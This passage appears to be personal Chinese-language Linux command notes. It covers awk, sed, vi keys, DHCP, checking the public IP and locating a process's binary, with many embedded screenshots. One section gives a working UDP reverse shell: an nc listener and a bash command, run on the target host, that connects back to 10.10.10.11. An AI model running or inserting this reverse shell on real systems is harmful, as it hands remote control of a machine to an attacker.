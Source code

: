 或者直接设置dhcp，然后再重启网络<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1626448175547-10609939-0c73-4e31-bf86-0df9eede39ba.png#height=193&id=rIYdi&originHeight=193&originWidth=312&originalType=binary&ratio=1&rotation=0&showTitle=false&size=40320&status=done&style=none&title=&width=312)

<a name="zGZ7F"></a>
### awk
# awk -F: '{ print $1,$3 }' /etc/passwd<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1627043523158-0aebad50-69eb-4377-92bc-d805731a9b31.png#height=344&id=z0RbI&originHeight=458&originWidth=498&originalType=binary&ratio=1&rotation=0&showTitle=false&size=112683&status=done&style=none&title=&width=374)<br />awk <br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1627088540022-44fc5dfe-6d82-4f97-810c-0b7c24c93b3f.png#height=250&id=LPoeb&originHeight=250&originWidth=209&originalType=binary&ratio=1&rotation=0&showTitle=false&size=39598&status=done&style=none&title=&width=209)

# sed -i 'aaaaaaa' test.txt        //添加到最后一行<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1627089864074-00a57799-3acc-4944-8879-eb2bfbf876b7.png#height=322&id=jBUHf&originHeight=322&originWidth=335&originalType=binary&ratio=1&rotation=0&showTitle=false&size=62143&status=done&style=none&title=&width=335)

![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1627090429745-25267fef-2205-4ff0-b613-eb22845b72cb.png#height=180&id=GGL3d&originHeight=180&originWidth=1606&originalType=binary&ratio=1&rotation=0&showTitle=false&size=33401&status=done&style=none&title=&width=1606)

<a name="n7O7k"></a>
### 查看本机的外网ip
curl ip.sb<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1631240992276-44a6b875-eedc-4e18-b142-ade97a4dec84.png#clientId=u04aabf7a-a065-4&from=paste&id=u5859147e&originHeight=69&originWidth=435&originalType=binary&ratio=1&rotation=0&showTitle=false&size=5857&status=done&style=none&taskId=u9c47cb62-abe1-45e3-bcd5-5a70d571f0e&title=)

<a name="vfc3i"></a>
### udp反弹shell
首先在本地监听UDP协议的监听端口<br />nc -lnuvp 443<br />然后在靶机上执行如下命令：<br />bash -i >& /dev/udp/10.10.10.11/443 0>&1  

<a name="UsJf7"></a>
### Linux通过进程ID查看文件路径
ls -l /proc/28120/exe<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1632580133867-dde60f9b-ec37-4f76-8e48-9e4d0688edab.png#clientId=u0895a849-f5b3-4&from=paste&height=53&id=ubf96239c&originHeight=71&originWidth=755&originalType=binary&ratio=1&rotation=0&showTitle=false&size=9310&status=done&style=none&taskId=u198e5ede-e744-4b1a-ae93-0d0b631154a&title=&width=566)

<a name="zT3lc"></a>
### VI编辑方法
![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1633575105083-f4f7fcdb-15ca-4056-b1fa-f3ab54527f76.png#clientId=ub50f79a5-7930-4&from=paste&height=370&id=u2ff4ebfa&originHeight=493&originWidth=896&originalType=binary&ratio=1&rotation=0&showTitle=false&size=36927&status=done&style=none&taskId=u799e9295-8590-4517-ab3d-fd866947666&title=&width=672)<br /> 小写英文字母「h」、「j」、「k」、「l」，分别控制光标左、下、上、右移一格。  
